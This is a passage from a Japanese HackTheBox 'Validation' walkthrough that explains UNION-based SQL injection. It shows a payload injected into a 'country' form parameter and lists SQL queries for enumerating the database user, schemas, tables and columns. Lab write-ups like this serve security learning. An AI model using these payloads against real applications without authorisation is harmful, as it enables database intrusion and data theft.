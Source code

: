 ![image-73-1024x651.png](../../static/media/2021-10-30-hackthebox-linux-validation/image-73-1024x651.png)

### UNION injection

というわけで実際にSQLiを実行していきます。

先ほどのBurp経由でのテストを実施した際にもわかるとおり、単純にSQLiを行うだけでは戻り値を表示することができません。

そのため、UNION injectionという手法でインジェクションを行っていきます。

UNION injectionは、UNIONクエリを利用して、既存のSQLクエリにポイズニングをしかけ、もともとのクエリ結果と任意のクエリの結果を結合させる攻撃手法です。

こんな感じのクエリを投げつけます。

``` bash
country=Brazil' UNION SELECT 1;-- -';
```

参考：[SQL Injection Cheat Sheet | Netsparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)

ここから、UNION injectionを使ってDBの探索とエクスプロイトを行います。

``` bash
-- DBのユーザ名を表示
select user()

-- DB名
select database()

-- DS列挙
select schema_name from information_schema.schemata

-- テーブル取得
select table_name from information_schema.tables where table_schema = '<table name>'

-- テーブル情報取得
select column_name from information_schema.columns where table_name = '<table name>'

-- ユーザの権限参照
```